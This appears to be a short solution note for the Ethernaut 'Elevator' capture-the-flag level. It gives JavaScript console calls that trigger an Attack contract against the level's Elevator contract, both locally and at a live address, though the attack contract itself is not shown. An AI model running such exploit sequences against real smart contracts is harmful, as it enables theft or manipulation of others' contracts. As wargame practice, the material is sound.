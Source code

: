 # Elevator

[Elevator](https://ethernaut.openzeppelin.com/level/0x4A151908Da311601D967a6fB9f8cFa5A3E88a251)


## Test Attack

```JS
el = await Elevator.deployed()
attack = await Attack.deployed()

await el.top()
await attack.goTo(11)
await el.top()
```

<BR />

## Live Attack

```JS
el = await Elevator.at("0xaef17A18bd4ec8abCE38EeE6B054242a69482D11")
attack = await Attack.deployed()

await el.top()
await attack.goTo(11)
await el.top()
```
